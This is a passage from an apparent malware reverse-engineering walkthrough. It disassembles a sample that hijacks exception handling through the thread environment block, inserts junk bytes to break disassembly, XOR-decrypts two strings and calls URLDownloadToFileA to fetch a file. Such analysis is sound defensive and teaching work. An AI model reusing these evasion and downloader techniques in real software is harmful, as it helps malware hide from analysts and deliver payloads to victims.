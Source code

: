 ```
.text:004014BE                 pop     ebp
.text:004014BF                 retn
``` 

One thing that stands out is that this code appears to be messing with the [thread environment block (TEB)](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block) by adding its own code to be picked up by the exception handler when an exception occurs. It then forces an exception by causing a divide by zero, so the code after the `div` instruction doesn't actually execute. Once the exception occurs, the code will jump to 0x4014c0.

Again, the disassembly is broken at this address, so it needs to be fixed up by converting data to code and code to data like we have been doing. The resulting code ends up as the following.

```
.text:004014C0 loc_4014C0:                             ; DATA XREF: .text:loc_401497↑o
.text:004014C0                 mov     esp, [esp+8]
.text:004014C4                 mov     eax, large fs:0
.text:004014CA                 mov     eax, [eax]
.text:004014CC                 mov     eax, [eax]
.text:004014CE                 mov     large fs:0, eax
.text:004014D4                 add     esp, 8
.text:004014D4 ; ---------------------------------------------------------------------------
.text:004014D7                 db 0EBh
.text:004014D8 ; ---------------------------------------------------------------------------
.text:004014D8                 inc     eax
.text:004014DA                 dec     eax
.text:004014DB                 call    $+5
.text:004014E0                 push    ebp
.text:004014E1                 mov     ebp, esp
.text:004014E3                 push    ebx
.text:004014E4                 push    esi
.text:004014E5                 push    edi
.text:004014E6                 push    offset unk_403010
.text:004014EB                 call    sub_401534
.text:004014F0                 add     esp, 4
.text:004014F3                 push    offset unk_403040
.text:004014F8                 call    sub_401534
.text:004014FD                 add     esp, 4
.text:00401500                 push    0
.text:00401502                 push    0
.text:00401504                 push    offset unk_403040
.text:00401509                 push    offset unk_403010
.text:0040150E                 push    0
.text:00401510                 call    URLDownloadToFileA
.text:00401515                 jz      short loc_40151A
.text:00401517                 jnz     short loc_40151A
```

In this block, we see 2 calls to the same function, `sub_401534` but with different arguments. The arguments seem to be strings of seemingly random data. Inside the function, we see a loop with an `xor` operation which indicates that this loop is likely decrypting those random strings of data.

```
.text:00401534 sub_401534      proc near               ; CODE XREF: .text:004014EB↑p
.text:00401534                                         ; .text:004014F8↑p
.text:00401534
.text:00401534 arg_0           = dword ptr  8
.text:00401534
.text:00401534                 push    ebp
.text:00401535                 mov     ebp, esp
.text:00401537
.text:00401537 loc_401537:                             ; CODE XREF: sub_401534+26↓j
.text:00401537                 mov     eax, [ebp+arg_0]
.text:0040153A                 movsx   ecx, byte ptr [eax]
.text:0040153D                 test    ecx, ecx
.text:0040153F                 jz      short loc_40155C
```